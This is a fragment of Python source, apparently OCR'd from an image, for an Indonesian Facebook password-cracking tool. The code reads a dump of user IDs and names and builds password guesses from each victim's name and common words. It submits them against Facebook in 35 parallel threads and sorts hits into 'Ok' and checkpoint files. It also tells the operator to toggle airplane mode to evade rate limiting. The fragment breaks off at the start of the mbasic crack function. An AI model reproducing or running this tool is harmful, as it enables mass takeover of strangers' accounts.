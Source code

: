                 ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(api, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai]%s"%(B,H,B))
    elif ___metode___ in ['6','06']:
        print("\n%s[%s1%s]%s Gunakan Password [nama,nama123,nama12345]"%(H,P,H,P))
        print("%s[%s2%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,nama123456]"%(H,P,H,P))
        print("%s[%s3%s]%s Gunakan Password [nama,nama123,nama1234,nama12345,Sayang,Dll]"%(H,P,H,P))
        print("%s[%s4%s]%s Gunakan Password Manual [ >6 ]"%(H,P,H,P))
        ___password___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))
        if ___password___ in ['4','04']:
            print("\n[*] Gunakan Tanda Koma Untuk Password Berbeda. Contoh : Sayang,Cantik"%(H,P,H,P))
            pwd = raw_input("%s[%s?%s]%s Password :%s "%(H,P,H,P,B)).split(',')
            if pwd <=5:
                exit("%s[%s!%s]%s Password Harus Lebih Dari 6 Karakter"%(P,M,P,M))
        try:
            ___file___ = raw_input("%s[%s?%s]%s File Dump :%s "%(H,P,H,P,B))
            ids=open(___file___).read().splitlines()
        except:
            exit("%s[%s!%s]%s File Tidak Ada"%(P,M,P,M))
        print("\n%s[%sâ€¢%s]%s Abdullwh  Ok Tersimpan Di :%s Results/Ok.txt"%(B,P,B,P,H))
        print("%s[%sâ€¢%s]%s Abdullwh  Cp Tersimpan Di :%s Results/Cp.txt"%(B,P,B,P,K))
        print("%s[%s!%s]%s Gunakan Mode Pesawat Di Angka 1000,2000...\n"%(B,M,B,P))
        with ThreadPoolExecutor(max_workers=35) as (hayuk):
            for user in ids:
                uid, nama = user.split('<=>')
                ox = nama.split(' ')
                if ___password___ in ['1','01']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345']
                elif ___password___ in ['2','02']:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345', ox[0]+'123456']
                elif ___password___ in ['3','03']:
                    pwx = [nama, ox[0]+'123', ox[0]+'12345', 'Sayang', 'Anjing', 'Bangsat', 'Kontol', 'Bismillah', '123456', 'Cantik']
                elif ___password___ in ['4','04']:
                    pwx = pwd
                else:
                    pwx = [nama, ox[0]+'123', ox[0]+'1234', ox[0]+'12345']
                hayuk.submit(crack2, ids, uid, pwx)
        os.remove(___file___)
        exit("\n%s[%sSelesai%s]"%(B,H,B))
    else:
        exit("%s[%s!%s]%s Wrong Input"%(P,M,P,M))
# Crack Mbasic.Facebook.Com
def mbasic(ids, uid, pwx, **kwargs):
    global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s Ok:-%s - Cp:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx: